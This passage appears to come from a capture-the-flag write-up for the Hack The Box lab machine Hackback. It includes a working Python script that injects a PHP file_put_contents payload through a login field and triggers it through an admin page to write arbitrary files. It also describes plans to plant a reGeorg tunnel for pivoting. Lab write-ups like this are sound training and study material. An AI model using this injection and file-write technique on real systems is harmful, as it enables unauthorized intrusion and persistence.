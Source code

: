 I can't use these credentials at the moment since there's no other service exposed but they'll be useful later on.

### Tunneling our way in

I can also write files to the target system using the same PHP code execution trick. I wrote another variant of my previous script that uses the `file_put_contents` function to write files to the disk.

```python
#!/usr/bin/python

import base64
import requests
import sys

# Clean up the log file

r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=init&site=hackthebox&password=12345678&session=fb6f90c58d1e2f1a7b86546f3300d6d199ac4c0b5309ada3203b2042b3443a56");
print r.status_code

# Base64 encoded the file we want to write

with open(sys.argv[2]) as f:
	payload = base64.b64encode(f.read())

# print payload

data = {
	"_token": "23I6TdlO18ZPtXYQPeHZyAY4Y8Z9wq1ntgvP8YdA",
	"username": "test@test.com",
	"password": "<?php echo(file_put_contents(\"%s\",base64_decode(\"%s\")));echo ' *****'; ?>" % (sys.argv[1],payload),
	"submit": ""
}
r = requests.post("http://www.hackthebox.htb", data=data)
print r.status_code

# Call the PHP code to write the file

r = requests.get("http://admin.hackback.htb/2bb6916122f1da34dcd916421e531578/WebAdmin.php?action=show&site=hackthebox&password=12345678&session=fb6f90c58d1e2f1a7b86546f3300d6d199ac4c0b5309ada3203b2042b3443a56", allow_redirects=False);
print r.text
```

I used [reGeorg](https://github.com/sensepost/reGeorg) to pivot to the machine. reGeorg has two main components to it: a client-side python script that acts as a local SOCKS proxy and the remote .aspx file running on the target server.

To write the .aspx to the webserver directory I used my script above:
